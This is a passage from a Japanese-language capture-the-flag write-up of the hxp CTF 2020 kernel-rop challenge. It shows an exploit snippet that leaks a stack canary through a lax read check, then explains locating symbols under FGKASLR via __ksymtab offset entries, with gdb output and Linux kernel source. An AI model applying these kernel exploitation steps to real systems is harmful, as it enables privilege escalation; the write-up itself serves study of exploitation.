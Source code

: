 # leak canary
カナリアが飼われているものの、`hackme_read()`のチェックがガバガバのため、readに関しては思うがままにでき、よって容易にカナリアをleakできる。
```canary-leak.c
/** snippet **/
  _read(fd, rbuf, 0x90);
  printf("[+] canary: %lx\n", ((ulong*)rbuf)[0x80/8]);
  
/** result **/
/ # /tmp/exploit
[+] canary: 32ce1536acf87a00
/ #
```

# kROP
これでcanaryがleakできたため、スタックを任意に書き換えることができるようになった。SMEP/SMAPともに有効であるから、ユーザランドに飛ばすことはできない。また、FGKASLRが有効のためガジェットの位置がなかなか定まらない。FGKASLRが有効でもデータセクション及び一部の関数はランダマイズされないことは知っているが、そういったシンボルをどうやって見つければいいか分からなかった。

## __ksymtab_xxx
ここで[author's writeup](https://hxp.io/blog/81/hxp-CTF-2020-kernel-rop/)をカンニング。
`__ksymtab_xxx`エントリをleakすればいいらしい。そこで試しに`kmem_cache_alloc()`の情報を以下に挙げる。
```kmem_cache_alloc_info.sh
kernbase: 0xffffffff81000000
kmem_cache_create: 0xffffffff81644b00
__ksymtab_kmem_cache_create: 0xffffffff81f8b4b0
__kstrtab_kmem_cache_create: 0xffffffff81fa61ea

(gdb) x/4wx $ksymtab_kmem_cache_create
0xffffffff81f8b4b0:     0xff6b9650      0x0001ad36      0x0001988a
```
僕は`__ksymtab_xxx`各エントリには、シンボルのアドレス・`__kstrtab_xxx`へのポインタ・ネームスペースへのポインタがそれぞれ0x8byteで入っているものと思っていたが、上を見る感じそうではない。どうやら、KASLRが利用できるarchにおいては、[このパッチ](https://patchwork.kernel.org/project/linux-arm-kernel/patch/20180626182802.19932-4-ard.biesheuvel@linaro.org/)でアドレスの代わりにオフセットを入れるようになったらしい。シンボルの各エントリは以下の構造を持ち、以下のようにして解決される。
```include/linux/export.h
#ifdef CONFIG_HAVE_ARCH_PREL32_RELOCATIONS
#include <linux/compiler.h>
(snipped...)
#define __KSYMTAB_ENTRY(sym, sec)					\
	__ADDRESSABLE(sym)						\
	asm("	.section \"___ksymtab" sec "+" #sym "\", \"a\"	\n"	\
	    "	.balign	4					\n"	\
	    "__ksymtab_" #sym ":				\n"	\
	    "	.long	" #sym "- .				\n"	\
	    "	.long	__kstrtab_" #sym "- .			\n"	\
	    "	.long	__kstrtabns_" #sym "- .			\n"	\
	    "	.previous					\n")

struct kernel_symbol {
	int value_offset;
	int name_offset;
	int namespace_offset;
};
#else
```
```kernel/module.c
static unsigned long kernel_symbol_value(const struct kernel_symbol *sym)
{
#ifdef CONFIG_HAVE_ARCH_PREL32_RELOCATIONS
	return (unsigned long)offset_to_ptr(&sym->value_offset);
#else
	return sym->value;
#endif
```